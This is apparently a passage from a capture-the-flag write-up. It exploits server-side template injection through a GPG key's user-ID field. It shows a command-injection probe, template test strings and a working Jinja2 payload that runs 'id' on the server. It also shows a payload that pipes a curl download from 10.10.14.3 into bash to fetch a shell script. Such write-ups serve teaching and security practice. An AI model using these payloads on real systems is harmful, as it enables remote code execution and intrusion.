 ```
gpg> adduid
Real name: ;id
Email address: 
Comment: 
You selected this USER-ID:
    ";id"

Change (N)ame, (C)omment, (E)mail or (O)kay/(Q)uit? O
```

I tried a few payloads for different vulnerabilities, and found that SSTI worked:

```
$ gpg --list-keys
pub   rsa3072 2023-06-20 [SC] [expires: 2025-06-19]
      31EA5FC83F24B3E99B87885ED6F62FD89D66C0B7
uid           [ultimate] {{7*7}}
uid           [ultimate] test123
sub   rsa3072 2023-06-20 [E]
```

<figure><img src="../../.gitbook/assets/image (2939).png" alt=""><figcaption></figcaption></figure>

A bit more testing revealed that `{{7*'7'}}` works as well:

<figure><img src="../../.gitbook/assets/image (1556).png" alt=""><figcaption></figcaption></figure>

I tested both Twig and Jinja2 payloads, and got RCE using this payload:

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

<figure><img src="../../.gitbook/assets/image (1448).png" alt=""><figcaption></figcaption></figure>

I tried to execute this, but it didn't work:

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('curl 10.10.14.3/shell.sh|bash').read() }}
```
